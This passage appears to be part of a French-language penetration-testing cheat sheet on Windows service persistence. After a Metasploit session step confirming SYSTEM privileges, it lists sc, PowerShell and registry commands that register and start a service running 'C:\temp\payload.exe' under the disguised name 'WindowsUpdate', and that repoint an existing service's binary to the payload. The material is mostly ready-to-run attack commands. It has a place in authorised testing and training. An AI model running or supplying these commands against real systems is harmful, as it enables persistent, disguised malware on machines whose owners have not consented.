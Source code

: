 ```bash
sessions -i <nouveau_id>
getuid                                  # SYSTEM privileges
```

---

## 🎛️ 5. Gestion manuelle des services Windows

### Commandes sc (Service Control)
```cmd
# Créer service
sc create "WindowsUpdate" binPath= "C:\temp\payload.exe" start= auto

# Démarrer service
sc start "WindowsUpdate"

# Arrêter service
sc stop "WindowsUpdate"

# Supprimer service
sc delete "WindowsUpdate"

# Interroger service
sc query "WindowsUpdate"
sc qc "WindowsUpdate"

# Modifier service existant
sc config "existing_service" binPath= "C:\temp\payload.exe"
```

### PowerShell Service Management
```powershell
# Créer service avec PowerShell
New-Service -Name "WindowsUpdate" -BinaryPathName "C:\temp\payload.exe" -StartupType Automatic

# Démarrer service
Start-Service "WindowsUpdate"

# Status service
Get-Service "WindowsUpdate"

# Supprimer service
Remove-Service "WindowsUpdate"
```

### Registry Manipulation (alternative)
```cmd
# Ajouter au registry pour démarrage auto
reg add "HKLM\SYSTEM\CurrentControlSet\Services\WindowsUpdate" /v ImagePath /t REG_EXPAND_SZ /d "C:\temp\payload.exe"
reg add "HKLM\SYSTEM\CurrentControlSet\Services\WindowsUpdate" /v Start /t REG_DWORD /d 2
```

---